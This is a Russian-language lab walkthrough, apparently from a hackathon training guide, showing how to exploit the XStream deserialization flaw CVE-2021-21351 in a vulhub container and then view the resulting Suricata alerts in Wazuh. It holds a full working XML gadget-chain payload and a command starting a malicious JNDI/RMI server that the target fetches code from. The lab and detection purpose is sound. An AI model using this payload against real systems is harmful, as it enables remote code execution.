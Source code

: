 # xstream

### Материалы:

* [https://access.redhat.com/security/cve/CVE-2021-21351](https://access.redhat.com/security/cve/CVE-2021-21351)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-21351](https://nvd.nist.gov/vuln/detail/CVE-2021-21351)
* [https://x-stream.github.io/CVE-2021-21351.html](https://x-stream.github.io/CVE-2021-21351.html)

XStream - это Java-библиотека для сериализации объектов в XML. В XStream до версии 1.4.16 существует уязвимость, которая может позволить удаленному злоумышленнику загрузить и выполнить произвольный код с удаленного хоста, манипулируя обрабатываемым входным потоком.

### Эксплуатация уязвимости&#x20;

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/xstream/CVE-2021-21351

Для запуска уязвимого сервера выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница, отправив на которую следующий POST-запрос, мы можем протестировать успешность запуска среды&#x20;

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wz-api=default
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 95

<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>Test</name>
  <age>10</age>
</user>
```

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

> Если у вас возникают ошибки сервера в ответе, попробуйте поменять версию Java 18 на машине с помощью команды sudo update-alternatives --config java, установив перед этим соответствующий пакет

<figure><img src="../../.gitbook/assets/cve-2021-21351(2).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости нужно поднять зловредный RMI-сервер на "атакующей" машине (можно использовать уже имеющуюся) с помощью [данного](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) архива

Для этого выполните команду:

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A ваш-ip(атакующий)
```

<figure><img src="../../.gitbook/assets/cve-2021-21351(3).png" alt=""><figcaption></figcaption></figure>

После этого отправьте следующий POST-запрос на сервер:

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wz-api=default
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 3185

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://ip_RMI-сервера:1099/example</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>

```

<figure><img src="../../.gitbook/assets/cve-2021-21351(4).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимой машине будет создан файл "/tmp/success", свидетельствующий об успешной эксплуатации уязвимости

<figure><img src="../../.gitbook/assets/cve-2021-21351(5).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata о сериализации полезной нагрузки Java через RMI-ответ

<figure><img src="../../.gitbook/assets/cve-2021-21351(6).png" alt=""><figcaption></figcaption></figure>
